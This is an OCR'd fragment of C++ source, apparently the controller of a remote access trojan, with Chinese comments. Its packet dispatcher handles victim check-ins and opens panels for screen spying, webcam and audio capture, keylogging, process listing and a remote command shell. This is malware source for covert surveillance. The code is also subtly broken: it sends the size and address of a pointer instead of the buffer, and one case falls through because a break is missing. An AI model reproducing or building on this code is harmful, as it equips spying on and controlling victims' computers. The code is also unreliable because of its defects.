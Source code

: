 ```
			bToken[0] = TOKEN_AUTH;
			memcpy( bToken + 1, m_PassWord, m_PassWord.GetLength() );
			m_iocpServer->Send(pContext, (LPBYTE)&bToken, sizeof(bToken));
			delete[] bToken;
//			m_iocpServer->Send(pContext, (PBYTE)m_PassWord.GetBuffer(0), m_PassWord.GetLength() + 1);
		}
		break;

	case TOKEN_HEARTBEAT: // 回复心跳包
		{
			BYTE	bToken = COMMAND_REPLAY_HEARTBEAT;
			m_iocpServer->Send(pContext, (LPBYTE)&bToken, sizeof(bToken));
		}
 		break;
	case TOKEN_LOGIN_FALSE: // 上线包
		{
			if (m_iocpServer->m_nMaxConnections <= g_pConnectView->GetListCtrl().GetItemCount())
			{
				closesocket(pContext->m_Socket);
			}
			else
			{
				pContext->m_bIsMainSocket = true;
				g_pConnectView->PostMessage(WM_ADDTOLIST, 0, (LPARAM)pContext);
			}
		}
	case TOKEN_LOGIN_TRUE: // 上线包
		{
			if (m_iocpServer->m_nMaxConnections <= g_pConnectView->GetListCtrl().GetItemCount())
			{
				closesocket(pContext->m_Socket);
			}
			else
			{
				pContext->m_bIsMainSocket = true;
				g_pConnectView->PostMessage(WM_ADDTOLIST, 0, (LPARAM)pContext);
			}
		}
		break;
	case TOKEN_DRIVE_LIST: // 驱动器列表
		// 指接调用public函数非模态对话框会失去反应， 不知道怎么回事,太菜
		g_pConnectView->PostMessage(WM_OPENMANAGERDIALOG, 0, (LPARAM)pContext);
		break;
	case TOKEN_BITMAPINFO: //
		// 指接调用public函数非模态对话框会失去反应， 不知道怎么回事
		g_pConnectView->PostMessage(WM_OPENSCREENSPYDIALOG, 0, (LPARAM)pContext);
		break;
	case TOKEN_WEBCAM_BITMAPINFO: // 摄像头
		g_pConnectView->PostMessage(WM_OPENWEBCAMDIALOG, 0, (LPARAM)pContext);
		break;
	case TOKEN_AUDIO_START: // 语音
		g_pConnectView->PostMessage(WM_OPENAUDIODIALOG, 0, (LPARAM)pContext);
		break;
	case TOKEN_KEYBOARD_START://键盘记录
		g_pConnectView->PostMessage(WM_OPENKEYBOARDDIALOG, 0, (LPARAM)pContext);
		break;
	case TOKEN_PSLIST://进程列表
		g_pConnectView->PostMessage(WM_OPENPSLISTDIALOG, 0, (LPARAM)pContext);
		break;
	case TOKEN_SHELL_START://CMD
		g_pConnectView->PostMessage(WM_OPENSHELLDIALOG, 0, (LPARAM)pContext);
		break;
```